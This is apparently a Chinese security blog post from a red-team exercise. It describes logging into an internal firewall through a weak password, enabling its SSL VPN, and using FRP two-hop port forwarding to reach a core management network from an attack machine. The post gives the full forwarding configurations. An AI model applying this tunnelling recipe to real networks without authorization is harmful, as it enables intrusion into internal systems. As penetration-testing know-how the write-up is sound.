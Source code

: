 ```yaml
---
permalink: 2022/06/15/connect-Intranet-ssl-vpn/
tags:
  - sslvpn
layout: post
date: '2022-06-15 08:00:00'
categories:
  - 网络安全
  - VPN
home_cover: 'https://cdn.jsdelivr.net/gh/handbye/images/picgo2022-06-15-10-30-29.png'
title: 如何连接内网ssl vpn?
---
```


## 背景


在某次HW时，我们在内网发现了一个防火墙web登录弱口令，在登录后查看配置时，发现此防火墙可通内网核心管理网段，拓扑大概如下：


![picgo2022-06-15-11-50-50.png](../post_images/eab55c4dfda131fe36f19cb44974fc1d.png)


此时我们得设法让攻击机能够访问此核心网段。我们想了如下几个方法：

1. 在防火墙上添加到核心网段的路由
2. 做端口映射
3. 启用ssl vpn，将目标网段加到ssl vpn中。

先说下这几种方法的利弊，第一种方法最为简单，但是无法确定目标网段的网关设备在哪，有可能网关设备上没有到攻击机(跳板机)网段的回程路由。第二种方法做端口映射，如果不确定核心网段开放的端口也会很麻烦，且不利于fscan等工具做信息收集。第三种方法最为方便，一旦ssl vpn建立，就相当于攻击机已经处于核心网段之中了，这时候无论是信息收集还是漏洞利用都很方便，但是此防火墙处于内网，如何连接其ssl vpn是个问题。


## socks5代理方式连接失败


当在防火墙上打开ssl vpn后，查看其登录页面如下。


![picgo2022-06-15-13-58-03.png](../post_images/7b94e656130e6a053f8d37e704b971b7.png)


按照其提示我们下载了ssl vpn客户端，并将其加入profile规则中，让其走socks5去连接ssl vpn服务器端。


![picgo2022-06-15-14-17-09.png](../post_images/a49085248b2ccad377544ea506a62454.png)


![picgo2022-06-15-15-26-27.png](../post_images/7f86b88abb66ead913deab8235e486fa.png)


此种方法尝试后发现，sslvpn在认证通过后立马又会掉线，查看连接日志发现是udp协商未通过。


![picgo2022-06-15-15-27-53.png](../post_images/f94089fa02ca1c7b135bb1658447235b.png)


![picgo2022-06-15-15-28-07.png](../post_images/b3e1fd62f6017b1ec17c285b188c2feb.png)


由于socks5代理不支持UDP，所以UDP传输失败导致了ssl vpn无法正常建立。但是不是所有厂家的ssl vpn都不支持socks5代理的方式去连接，例如华为的ssl vpn就可以在其客户端上配置代理去连接。


![picgo2022-06-15-15-34-49.png](../post_images/b3643cc1583c3ee86994ca48c67eba74.png)


所以在实际环境中可以先去尝试使用socks5代理去连接，不成功的话再采取端口转发的方法。


## 端口转发解决问题


上面提到了由于socks5不支持UDP传输导致了ssl vpn建立失败，那我们分析下再其建立过程种UDP协商时使用的端口。


![picgo2022-06-15-16-47-38.png](../post_images/1e887a8fccad0db8886da8d13b0541ca.png)


![picgo2022-06-15-16-47-55.png](../post_images/063ce916ad03a8b249793e5f95b74f91.png)


可以看到使用的是442端口，那么我们就想办法把UDP442端口转发出来。


这次使用的端口转发工具是FRP,其支持tcp，udp的端口转发。


这里就贴一下FRP的配置吧：


公网VPS的 frps.ini


```text
_[common]
bindaddr = 0.0.0.0
bindport = 10991_

```


内网可出网机器 frpc.ini


```text
_[common]
serveraddr = 1.14.47.152
serverport = 10991
[tcp]      
type = tcp 
localport = 8072        
remoteport = 8072
[udp]      
type = udp
localport = 8073         
remoteport = 8073        
[forward1]         
type = tcp
localip = 127.0.0.1    
localport = 8072        
remoteport = 12020
[forward2]         
type = udp
localip = 127.0.0.1    
localport = 8073        
remoteport = 442_

```


内网可出网机器 frps.ini


```text
_[common]
bindaddr = 0.0.0.0
bindport = 21_

```


内网不出网机器 frpc.ini


```text
_[common]
serveraddr = 172.31.32.33  //内网可出网机器的ip
serverport = 21

[tcp]
type = tcp             
remoteport = 8072     
localip = 192.168.254.203 //sslvpn的ip地址
localport = 8081  //sslvpn的http端口

[udp]
type = udp
remoteport = 8073
localip = 192.168.254.203 //sslvpn的ip地址
localport = 442 //sslvpn的udp端口_

```


这样基于可以把ssl vpn的http端口和udp端口全部转发出来了，再攻击机直接连接转发出来的端口即可。


![picgo2022-06-15-17-08-00.png](../post_images/d21175b320bba4700172dcca0da2e295.png)


可以看到vpn已成功建立连接，并分配了网卡。


![picgo2022-06-15-17-08-30.png](../post_images/5e0b810ab89179baeb673210956e2008.png)


![picgo2022-06-15-17-08-47.png](../post_images/0b5dd3aa8c9a38629d14f2fec052435b.png)


这样就可以随意访问核心网段的地址了，ping也是没问题的。


![picgo2022-06-15-17-19-44.png](../post_images/804d4870808bc1fab217f29beb23e945.png)


## 参考


[使用Frp实现无公网地址（家庭宽带）环境下的SSL VPN部署](https://bbs.sangfor.com.cn/forum.php?mod=viewthread&tid=57000)

